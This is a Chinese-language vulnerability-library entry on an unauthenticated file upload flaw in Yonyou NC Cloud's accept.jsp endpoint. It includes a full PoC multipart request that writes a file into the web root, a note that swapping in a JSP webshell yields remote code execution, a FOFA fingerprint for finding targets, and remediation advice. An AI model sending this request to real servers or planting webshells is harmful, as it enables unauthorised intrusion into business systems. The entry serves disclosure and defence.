

# 用友NC/NC Cloud accept.jsp 文件上传

## 条目说明

- 对象与具体问题：用友NC/NC Cloud；accept.jsp 文件上传
- 版本、配置及部署条件：版本未证；与旧NC6.5同端点
- 认证与权限前提：无Cookie样例
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 本篇补全multipart fname字段，宜互补合并
- 2026-09-12原创披露与旧同接口报告冲突，应核查新版本/回归而非当新漏洞
- 纯文本上传回读不证明JSP执行；删除以前只盯CVE等编辑叙述

## 操作风险

请求可能删除/覆盖数据、修改账号或持久改变业务状态；文件写入/上传示例可能留下文件、覆盖数据或触发脚本执行。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。凭据示例如含星号，仅保留首尾用于说明，不能直接使用。

## 技术资料与来源记录

一、漏洞简介
------------

用友 NC Cloud 的 `/aim/equipmap/accept.jsp`
接口存在未授权任意文件上传漏洞。multipart
请求中 `fname` 参数直接决定服务端的落盘路径且未做校验，
攻击者可将上传的文件写入 Web
目录，拼接 URL 访问即实现远程代码执行。

2026-09-12 由北雪网络安全公众号原创披露（附复现截图）。
**该漏洞无 CVE / CNVD 编号**，纯社区情报——这类正是之前只盯
CVE 会漏掉的条目。FOFA 指纹：`icon_hash="1085941792"`。

二、漏洞影响
------------

-   产品：用友 NC Cloud（具体受影响版本未明确，社区披露未给出版本范围）
-   影响：未授权远程上传 webshell → RCE

三、复现过程
------------

#### 漏洞分析

`accept.jsp` 处理上传时取 `fname`
参数作为服务端写入路径，既不限制目录穿越、也不校验文件类型，
属于经典的"上传路径可控"型任意文件上传。

#### PoC（来源：社区公开复现报文，仅限授权测试）

```http
    POST /aim/equipmap/accept.jsp HTTP/1.1
    Host: 127.0.0.1
    Content-Type: multipart/form-data; boundary=ac1485f11aa5441defff4ab45b7fb177

    --ac1485f11aa5441defff4ab45b7fb177
    Content-Disposition: form-data; name="upload"; filename="01356.txt"
    Content-Type: text/plain

    875784047
    --ac1485f11aa5441defff4ab45b7fb177
    Content-Disposition: form-data; name="fname"

    \webapps\nc_web\01356.txt
    --ac1485f11aa5441defff4ab45b7fb177--
```

上传成功后拼接路径访问即命中：`http://target/01356.txt`。
把 `01356.txt` 换成 jsp
webshell 并保持 `fname` 指向 Web 可达目录，即完成利用链。

原披露附带的复现截图（已吸纳归档；原文 4 张中有 2 张外链已失效）：




四、修复建议
------------

1.  关闭该接口的互联网暴露面，或设置访问权限控制；
2.  对 `fname`
    参数做服务端白名单校验，禁止路径穿越与非预期目录写入；
3.  官方补丁信息**未公开/待验证**（截至 2026-09-28
    未见厂商公告），建议升级至厂商后续安全版本；
4.  存量排查：检查 Web 目录下是否存在非预期的 jsp / 可疑文件。

#### 附录

参考链接：

-   社区复现原文（北雪网络安全，经 wxvl 归档）：https://github.com/4ESTSEC/wxvl/blob/main/doc/2026-09/%E7%94%A8%E5%8F%8BNC%20Cloud%20accept.jsp%E6%8E%A5%E5%8F%A3%E5%AD%98%E5%9C%A8%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E.md
